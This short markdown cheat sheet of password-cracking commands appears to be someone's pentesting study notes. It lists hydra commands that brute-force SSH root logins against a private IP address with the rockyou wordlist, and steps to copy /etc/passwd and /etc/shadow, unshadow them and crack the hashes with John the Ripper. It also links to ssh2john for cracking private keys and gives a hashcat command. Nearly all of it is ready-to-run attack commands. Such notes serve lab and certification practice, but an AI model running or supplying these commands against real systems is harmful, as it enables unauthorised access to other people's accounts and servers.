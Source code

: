 # Password Crack Methods

## SSH Bruteforce

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh

hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh -s 22022 //-s for different port

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh

```

## SSH john the crack to decrypt shadow password

```
1. Copy /etc/passwd content of a user in a text file
2. Copy /etc/shadow content of a user in a text file
3. sudo unshadow passwd.txt shadow.txt > hash.txt
4. sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## RSA Private Key crack using ssh2john

1. Link to download tool

https://github.com/koboi137/john/blob/bionic/ssh2john.py

2. Steps

https://www.hackingarticles.in/beginners-guide-for-john-the-ripper-part-2/

## Hashcat command to crack password

```
hashcat -m 1400 hashes.txt /usr/share/wordlists/rockyou.txt
```
